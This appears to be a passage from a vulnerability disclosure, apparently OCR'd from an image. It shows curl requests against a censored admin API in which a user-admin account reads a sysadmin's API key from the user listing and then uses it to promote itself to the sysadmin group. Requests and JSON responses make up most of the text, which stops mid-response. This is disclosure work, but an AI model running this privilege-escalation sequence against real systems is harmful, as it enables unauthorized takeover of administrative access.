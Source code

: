cURL Request:
```
curl -s -X GET --user "[user-admins_user_API_key]:x" -H "Accept:application/json" -H "Content-Type: application/json" https://[CENSORED]/admin/users
```

Response:
```
[TRUNCATED]
{"user":
  {
    "id": "[CENSORED]",
    "email": "[CENSORED]",
    "name": "[CENSORED]",
    "group": "sysadmins",
    "max_file_size": 0,
    "filedrop": "disabled",
    "filedrop_email": "disabled",
    "api_key": "[sysadmins_user_API_key]",
    "ldap_authentication": "false",
    "locale": "",
    "time_zone": "",
    "strong_auth_type": "",
    "strong_auth_username": "",
    "delivery_action": "",
    "phone_number": "",
    "last_login_at": "2021-10-29 10:02:11 UTC",
    "last_login_ip": "[CENSORED]",
    "created_at": "2020-06-30 10:49:38 UTC"
  }
},
[TRUNCATED
```

As we can see from the response, we obtain the API key of a sysadmin.

With this key, we can do everything because it is the most privileged group.

For example, we can modify our user to become a sysadmin:

cURL Request:
```
cat <<EOF | curl -s -X PUT --user "[sysadmins_user_API_key]:x" -H "Accept:application/json" -H "Content-Type: application/json" -d @- https://[CENSORED]/admin/users/<user-admins_user_id>
{"user":
  {
    "name": "[user-admins_user_name]",
    "group": "sysadmins"
  }
}
EOF
```

Response
```
{"user":
  {
    "id": "[CENSORED]",
    "email": "[CENSORED]",
    "name": "[CENSORED]",
    "group": "sysadmins",
    "max_file_size": 0,
    "filedrop": "disabled",
    "filedrop_email": "disabled",
    "api_key": "[CENSORED]",
    "ldap_authentication": "true",
    "locale": "",
    "time_zone": "",
```